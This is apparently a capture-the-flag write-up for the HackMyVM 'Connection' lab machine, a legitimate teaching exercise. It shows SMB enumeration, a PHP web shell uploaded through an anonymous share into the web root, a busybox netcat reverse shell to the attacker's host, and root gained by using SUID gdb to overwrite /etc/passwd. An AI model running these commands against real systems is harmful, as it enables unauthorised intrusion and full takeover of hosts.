




Welcome to my writeup for Connection, an easy (beginner) Linux machine hosted on the HackMyVM platform. This box serves as an excellent case study on why proper file system permissions and access controls are critical. It perfectly illustrates how an attacker can leverage a single over-permissive network share to breach the perimeter and subsequently weaponize an over-privileged local binary to gain absolute control over the host.
We will walk through the entire tactical lifecycle: beginning with unauthenticated network share mapping, moving to arbitrary code execution via an Apache web-root misalignment, and concluding with a creative local file overwrite exploitation chain.

- **Machine Link:** [HackMyVM - Connection](https://downloads.hackmyvm.eu/connection.zip)
- **Difficulty:** Easy
- **Core Concepts:** Network Enumeration, SMB, write files to share, SUID, write files with gdb

## Getting started
To kick off the challenge, I created a dedicated workspace directory named `Connection` inside my `Documents` folder on Kali Linux to keep everything organized.
```bash
┌──(emvee㉿kali)-[~]
└─$ cd Documents

┌──(emvee㉿kali)-[~/Documents]
└─$ mkdir Connection

┌──(emvee㉿kali)-[~/Documents]
└─$ cd Connection 
```
First, I checked my own network configuration to understand the subnet layout.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ ip a        
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:24:46:73 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.3/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 554sec preferred_lft 554sec
    inet6 fe80::a00:27ff:fe24:4673/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
The output revealed that my attacking machine was assigned the IP address **`10.0.2.3`** with a `/24` subnet mask on the `eth0` interface.

With this configuration in mind, I performed a quick ping sweep across the network using `fping` to discover other live hosts while suppressing error outputs.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ fping -ag 10.0.2.0/24 2> /dev/null
10.0.2.1
10.0.2.2
10.0.2.3
10.0.2.35
```
Excluding the network gateway and my own machine, **`10.0.2.35`** stood out as our target. I saved this target IP address into an environment variable for efficiency.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ ip=10.0.2.35
```
With the target IP locked in, it was time to perform a full port scan using nmap.

## Enumeration
With the target IP identified, I ran a comprehensive **Nmap** scan. I targeted all 65,535 TCP ports (`-p-`), enabled default enumeration scripts (`-sC`), initiated service version detection (`-sV`), and set the timing template to aggressive (`-T4`) to speed up the process.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ sudo nmap -sC -sV -T4 -p- $ip 
[sudo] password for emvee: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-10-15 20:06 +0200
Nmap scan report for 10.0.2.35
Host is up (0.00026s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:F4:4C:52 (Oracle VirtualBox virtual NIC)
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2026-10-15T14:07:21-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb2-time: 
|   date: 2026-10-15T18:07:21
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.28 seconds

``` 
The scan completed in 28.28 seconds and revealed 4 open ports on a Debian Linux system (hostname: `CONNECTION` running inside a VirtualBox environment):
- **Port 22/tcp (SSH):** Running `OpenSSH 7.9p1 Debian 10+deb10u2`. This could serve as our initial foothold or a way to maintain persistence once we obtain valid user credentials.
- **Port 80/tcp (HTTP):** Running an `Apache httpd 2.4.38` web server. The scan shows it is hosting the default _Apache2 Debian Default Page_. This warrants further exploration for hidden directories or web applications using tools like `gobuster` or `dirsearch`.
- **Ports 139/tcp & 445/tcp (SMB):** Running `Samba smbd 4.9.5-Debian`. Crucially, the Nmap script output notes that `guest` authentication is supported and message signing is disabled. This suggests we might be able to enumerate and access shared network folders anonymously.

Our attack surface is now clearly defined. The two most promising vectors for further enumeration are:
1. Investigating the web server on **Port 80** for hidden paths or vulnerable scripts.
2. Enumerating the SMB shares on **Port 445** to see if any sensitive data or configurations can be accessed via anonymous guest access.

{: width="700" height="400" }

It is a default Apache page. This is an indicator that the admin did not configure the server yet. Let's move on to the SMB attack surface.

Based on the initial Nmap results, the open SMB ports (139 and 445) stood out as the most immediate and promising attack vector. To dig deeper into the Samba configuration and uncover potential misconfigurations, I used `enum4linux-ng`, a tool designed to automate the enumeration of SMB shares and OS information. I initiated an unauthenticated scan against the target IP to check for null session vulnerabilities.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ enum4linux-ng $ip
ENUM4LINUX - next generation (v1.3.10)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.0.2.35
[*] Username ......... ''
[*] Random Username .. 'qntlejtu'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)

 ==================================
|    Listener Scan on 10.0.2.35    |
 ==================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ========================================================
|    NetBIOS Names and Workgroup/Domain for 10.0.2.35    |
 ========================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- CONNECTION      <00> -         B <ACTIVE>  Workstation Service      
- CONNECTION      <03> -         B <ACTIVE>  Messenger Service        
- CONNECTION      <20> -         B <ACTIVE>  File Server Service      
- ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser           
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name    
- WORKGROUP       <1d> -         B <ACTIVE>  Master Browser           
- WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
- MAC Address = 00-00-00-00-00-00         

 ======================================
|    SMB Dialect Check on 10.0.2.35    |
 ======================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                       
  SMB 1.0: true                           
  SMB 2.0.2: true                         
  SMB 2.1: true                           
  SMB 3.0: true                           
  SMB 3.1.1: true                         
Preferred dialect: SMB 3.0                
SMB1 only: false                          
SMB signing required: false               

 ========================================================
|    Domain Information via SMB session for 10.0.2.35    |
 ========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: CONNECTION         
NetBIOS domain name: ''                   
DNS domain: ''                            
FQDN: connection                          
Derived membership: workgroup member      
Derived domain: unknown                   

 ======================================
|    RPC Session Check on 10.0.2.35    |
 ======================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE

 ================================================
|    Domain Information via RPC for 10.0.2.35    |
 ================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 ============================================
|    OS Information via RPC for 10.0.2.35    |
 ============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.9.5-Debian)       
OS version: '6.1'                         
OS release: ''                            
OS build: '0'                             
Native OS: Windows 6.1                    
Native LAN manager: Samba 4.9.5-Debian    
Platform id: '500'                        
Server type: '0x809a03'                   
Server type string: Wk Sv PrQ Unx NT SNT Private Share for uploading files                                                                                                                                                                  

 ==================================
|    Users via RPC on 10.0.2.35    |
 ==================================
[*] Enumerating users via 'querydispinfo'
[+] Found 0 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 0 user(s) via 'enumdomusers'

 ===================================
|    Groups via RPC on 10.0.2.35    |
 ===================================
[*] Enumerating local groups
[+] Found 0 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 0 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 0 group(s) via 'enumdomgroups'

 ===================================
|    Shares via RPC on 10.0.2.35    |
 ===================================
[*] Enumerating shares
[+] Found 3 share(s):
IPC$:                                     
  comment: IPC Service (Private Share for uploading files)            
  type: IPC                               
print$:                                   
  comment: Printer Drivers                
  type: Disk                              
share:                                    
  comment: ''                             
  type: Disk                              
[*] Testing share IPC$
[-] Could not check share: STATUS_OBJECT_NAME_NOT_FOUND
[*] Testing share print$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share share
[+] Mapping: OK, Listing: OK

 ======================================
|    Policies via RPC for 10.0.2.35    |
 ======================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:              
  Password history length: None           
  Minimum password length: 5              
  Minimum password age: none              
  Maximum password age: 49710 days (136 years) 6 hours 21 minutes     
  Password properties:                    
  - DOMAIN_PASSWORD_COMPLEX: false        
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false 
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false 
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false                   
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false                     
Domain lockout information:               
  Lockout observation window: 30 minutes  
  Lockout duration: 30 minutes            
  Lockout threshold: None                 
Domain logoff information:                
  Force logoff time: 49710 days (136 years) 6 hours 21 minutes        

 ======================================
|    Printers via RPC for 10.0.2.35    |
 ======================================
[+] No printers returned (this is not an error)

Completed after 1.14 seconds

```
The scan identified some insights regarding the system's configuration:
1. **Anonymous Access Enabled (Null Session):** The target confirmed that it allows RPC session connections using an empty username and password (`username '' and password ''`). This major misconfiguration allowed me to map the internal structure without credentials.
2. **Interesting Server Type String:** The OS enumeration returned a customized server description: `"Private Share for uploading files"`. This strongly hints that file uploads might play a key role in exploiting this machine.
3. **Exposed SMB Shares:** `enum4linux-ng`  successfully discovered three network shares: `IPC$`, `print$`, and a custom directory plainly named **`share`**.
4. **Permissive Share Permissions:** During the access check, the tool attempted to connect to the custom directory:
    - `[*] Testing share share`
    - `[+] Mapping: OK, Listing: OK`

This status confirms that the anonymous null session has full permission to both map and list the contents of the `share` directory.

Armed with the knowledge that the `share` directory allowed anonymous mapping and listing, I proceeded to interact with it directly. Using `smbclient` with the `-N` flag to bypass password prompts, I attempted to establish an anonymous connection to the share.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ smbclient //$ip/share -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 03:48:39 2020
  ..                                  D        0  Wed Sep 23 03:48:39 2020
  html                                D        0  Wed Sep 23 04:20:00 2020

                7158264 blocks of size 1024. 5462788 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Wed Sep 23 04:20:00 2020
  ..                                  D        0  Wed Sep 23 03:48:39 2020
  index.html                          N    10701  Wed Sep 23 03:48:45 2020

                7158264 blocks of size 1024. 5462788 blocks available
smb: \html\> get index.html 
getting file \html\index.html of size 10701 as index.html (1161.1 KiloBytes/sec) (average 1161.1 KiloBytes/sec)
smb: \html\> exit
```
The anonymous login was successful. Upon executing `ls`, I noticed a directory named `html`. Inside this directory, I found a single file: `index.html`.

To verify what this page actually was, I downloaded it using the `get` command and inspected the first 20 lines on my local machine:
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ head index.html -n 20                                                                                                    

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Debian Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }

  body, html {
    padding: 3px 3px 3px 3px;

    background-color: #D8DBE2;

    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;

```
The header confirms that this is the exact same **Apache2 Debian Default Page** that we discovered on port 80 during our initial Nmap scan.

This is a massive breakthrough. It proves that the accessible SMB share is mapped directly to the **web root (`/var/www/html`)** of the HTTP server. If the share permissions allow write access, an attacker can upload files directly into the web directory and execute them by browsing to the web server.

The next logical step is attempting to achieve Remote Code Execution (RCE). I need to test if I can upload a PHP web shell or a malicious script into the `html` folder via `smbclient`. If successful, I can trigger the script via the browser on port 80 to catch a reverse shell.

## Initial access
To test this vector, I decided to deploy a lightweight and reliable web shell. I cloned WhiteWinterWolf's PHP web shell repository from GitHub and staged the webshell in my local workspace so I can upload it to the victim.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git 
Cloning into 'wwwolf-php-webshell'...
remote: Enumerating objects: 19, done.
remote: Total 19 (delta 0), reused 0 (delta 0), pack-reused 19 (from 1)
Receiving objects: 100% (19/19), 64.07 KiB | 4.93 MiB/s, done.
Resolving deltas: 100% (5/5), done.

┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ mv wwwolf-php-webshell/webshell.php .                                    
```
With the payload prepared, I re-established an anonymous SMB session. I navigated into the `html` directory and used the `put` command to upload `webshell.php`.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ smbclient //$ip/share -N                                            
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd html\
smb: \html\> put webshell.php 
putting file webshell.php as \html\webshell.php (439.8 kB/s) (average 439.8 kB/s)
smb: \html\> exit
                          
```
The file transfer completed successfully without any access denial or permission errors. This confirms a critical vulnerability: **unauthenticated write access to the web root via SMB**.

Because the web server processes PHP scripts, this file upload directly translates into a foothold on the target machine. Anyone can now trigger this script externally via a web browser to execute system commands with the privileges of the web server user (typically `www-data`).

{: width="700" height="400" }

With our webshell ready on the victim we are ready to proceed with our next step to gain a reverse shell. On the attacker machine we start a netcat listener on port 5555.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ nc -lvp 5555  
listening on [any] 5555 ...
```

I had tried several options to launch a reverse shell but they were not executed on the machine. So I had to find another way and lucky I got several possibilities documented in my cheatsheets. The website [revshells.com](https://www.revshells.com) has those options documented as well. On of them is to use [busybox](https://hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html#busybox).
```bash
busybox nc 10.0.2.3 5555 -e sh
```

{: width="700" height="400" }

As soon as the command fired, our local Netcat handler instantly intercepted the incoming network stream.
```bash
┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ nc -lvp 5555  
listening on [any] 5555 ...
10.0.2.35: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.35] 50702

```
We immediately performed environmental reconnaissance to verify our active runtime context and operational constraints.
```bash
whoami;id;hostname;ip a; pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
connection
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f4:4c:52 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.35/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 546sec preferred_lft 546sec
    inet6 fe80::a00:27ff:fef4:4c52/64 scope link 
       valid_lft forever preferred_lft forever
/var/www/html
``` 
The output confirmed we were running as www-data (the standard low-privilege service account for Apache on Debian) within the /var/www/html repository directory.

Operating inside a raw Netcat pipeline means tab-completion, history navigation, and active job controls (Ctrl+C) are absent. To prevent accidental terminal destruction, we stabilized our connection by spawning a full pseudo-terminal (PTY) using Python, then passing control parameters directly back to our active Zsh layer.
```bash
/var/www/html
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@connection:/var/www/html$ ^Z
zsh: suspended  nc -lvp 5555

┌──(emvee㉿kali)-[~/Documents/Connection]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 5555

www-data@connection:/var/www/html$ export SHELL=/bin/bash
www-data@connection:/var/www/html$ export TERM=xterm
www-data@connection:/var/www/html$ stty rows 50 cols 200
www-data@connection:/var/www/html$ reset
www-data@connection:/var/www/html$ 

```
With a fully stable TTY terminal ready, we began investigating the user environments present on the system.
We ran a recursive directory listing on the /home directories to see what users existed and inspect any files accessible to our current www-data group layer.
```bash
www-data@connection:/var/www/html$ ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root       root       4.0K Sep 22  2020 .
drwxr-xr-x 18 root       root       4.0K Sep 22  2020 ..
drwxr-xr-x  3 connection connection 4.0K Sep 22  2020 connection

/home/connection:
total 28K
drwxr-xr-x 3 connection connection 4.0K Sep 22  2020 .
drwxr-xr-x 3 root       root       4.0K Sep 22  2020 ..
lrwxrwxrwx 1 connection connection    9 Sep 22  2020 .bash_history -> /dev/null
-rw-r--r-- 1 connection connection  220 Sep 22  2020 .bash_logout
-rw-r--r-- 1 connection connection 3.5K Sep 22  2020 .bashrc
drwxr-xr-x 3 connection connection 4.0K Sep 22  2020 .local
lrwxrwxrwx 1 connection connection    9 Sep 22  2020 .mysql_history -> /dev/null
-rw-r--r-- 1 connection connection  807 Sep 22  2020 .profile
-rw-r--r-- 1 connection connection   33 Sep 22  2020 local.txt

/home/connection/.local:
total 12K
drwxr-xr-x 3 connection connection 4.0K Sep 22  2020 .
drwxr-xr-x 3 connection connection 4.0K Sep 22  2020 ..
drwx------ 3 connection connection 4.0K Sep 22  2020 share
ls: cannot open directory '/home/connection/.local/share': Permission denied
www-data@connection:/var/www/html$ 


```
The investigation revealed a user named connection. Crucially, the user's local flag file, local.txt, was configured with world-readable access permissions (-rw-r--r--), allowing any user on the system to inspect its contents. We simply read the file to obtain our initial local flag. 
```bash
www-data@connection:/var/www/html$ cat /home/connection/local.txt
HERE IS THE USER FLAG
www-data@connection:/var/www/html$ 

```

## Privilege escalation
With our foothold established as www-data, we shifted our objectives toward local privilege escalation. We performed a comprehensive sweep of the file system to isolate binaries configured with the Set-UID (SUID) permission bit set under a root context.
```bash
www-data@connection:/var/www/html$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
www-data@connection:/var/www/html$ 

```
While standard binaries like su and passwd are expected in SUID configurations, the presence of /usr/bin/gdb (GNU Debugger) configured with SUID privileges represents a severe systemic vulnerability.

Cross-referencing this finding with security baselines (such as [gtfobins](https://gtfobins.org/gtfobins/gdb/#file-write)) confirms that gdb contains native operational capabilities to write data directly into files or run arbitrary commands. 
{: width="700" height="400" }

Because it runs with SUID-root permissions, it inherits full write authority over highly restricted system files, including /etc/passwd.

To hijack administrative control without disrupting the system's runtime integrity, we decided to overwrite the root user account entry directly inside /etc/passwd.
First, we generated a valid, legacy MD5-crypt password hash locally using openssl. We passed the string "SecretPassword" as our target plain text credential.
```bash
www-data@connection:/var/www/html$ openssl passwd -1 "SecretPassword"
$1$YyloGXyw$oNEClGazQvqmmPqlUQgL6.
www-data@connection:/var/www/html$ 
```
Next, we constructed a matching, customized account string tailored to line up with the standard structure of the `/etc/passwd` file configuration.
```
root:$1$YyloGXyw$oNEClGazQvqmmPqlUQgL6.:0:0:root:/root:/bin/bash
```
Using gdb with specific runtime parameter definitions, we passed the `-nx` flag to ignore local configuration scripts, and executed the inline debugger directive dump value. This forces the SUID binary to dump our custom text line directly over the target destination file, effectively replacing the root user's authentication context.
```bash
gdb -nx -ex 'dump value /etc/passwd "root:$1$YyloGXyw$oNEClGazQvqmmPqlUQgL6.:0:0:root:/root:/bin/bash"' -ex quit
```
We combined these stages sequentially from within our interactive terminal interface.
```bash
www-data@connection:/var/www/html$ openssl passwd -1 "SecretPassword"
$1$YyloGXyw$oNEClGazQvqmmPqlUQgL6.
www-data@connection:/var/www/html$ gdb -nx -ex 'dump value /etc/passwd "root:$1$YyloGXyw$oNEClGazQvqmmPqlUQgL6.:0:0:root:/root:/bin/bash"' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
```
The memory operation completed seamlessly, successfully modifying the system's structural password repository.
With `/etc/passwd` updated, we invoked the standard `su root` terminal switcher command and authenticated using our defined credentials (`SecretPassword`).
```bash
www-data@connection:/var/www/html$ su root
Password: 
root@connection:/var/www/html# whoami;id;hostname;ip a; cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
connection
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f4:4c:52 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.35/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 556sec preferred_lft 556sec
    inet6 fe80::a00:27ff:fef4:4c52/64 scope link 
       valid_lft forever preferred_lft forever
cat: /root/root.txt: No such file or directory
root@connection:/var/www/html# cd ~
root@connection:~# ls
proof.txt
root@connection:~# cat proof.txt 
HERE IS THE ROOT FLAG
root@connection:~# 
```